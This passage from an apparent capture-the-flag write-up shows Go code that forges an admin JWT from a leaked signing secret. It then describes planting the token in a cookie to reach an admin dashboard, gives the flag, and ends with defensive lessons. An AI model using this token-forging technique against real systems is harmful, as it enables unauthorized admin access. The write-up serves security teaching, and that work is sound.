 ```go

func GenerateAccessToken(username string, role string) (string, error) {
    token := jwt.NewWithClaims(jwt.SigningMethodHS256,
        jwt.MapClaims{
            "username": username,
            "exp":      time.Now().Add(time.Minute * 10).Unix(),
            "role":     role,
            "iat":      time.Now().Unix(),
        })

    signedToken, err := token.SignedString(secretKey)
    if err != nil {
        signedToken = ""
    }
    return signedToken, err
}

func main() {
    InitJWT()
    token, err := GenerateAccessToken("hxuu", "admin")
    if err != nil {
        fmt.Println("Error generating token:", err)
        return
    }
    fmt.Println("Generated Token:", token)
}
```

> jwt.secret is the file we downloaded previously.

Running the script gives us a valid JWT Token.

![generated-token](/blog/images/2024-09-02-12-39-26.png)

Now we just have to login as user `hxuu`, replace the `accesstoken` in the cookies with our
token, and access `/admin/dashboard`.

![got-to-dashboard](/blog/images/2024-09-02-12-41-09.png)

Awesome, we can see the wanted post id. Let's access it using `/user/posts/<id>`


![flag](/blog/images/2024-09-02-12-42-45.png)

And there we go~ Flag is: `CSCTF{0a97afb3-64be-4d96-aa52-86a91a2a3c52}`

---

Lessons learned from this challenge:

- **JWT Secret Key Exposure**: Ensuring sensitive files like JWT secrets are not publicly accessible is crucial to prevent unauthorized access.
- **Token Crafting**: Crafting a valid JWT token can allow you to bypass access controls if the secret key is known.
- **Nginx Configuration**: Be aware of Nginx configurations that could expose sensitive files through aliases or improper restrictions.
- **Access Control**: Properly validate and handle user roles and permissions to secure admin and sensitive functionalities.
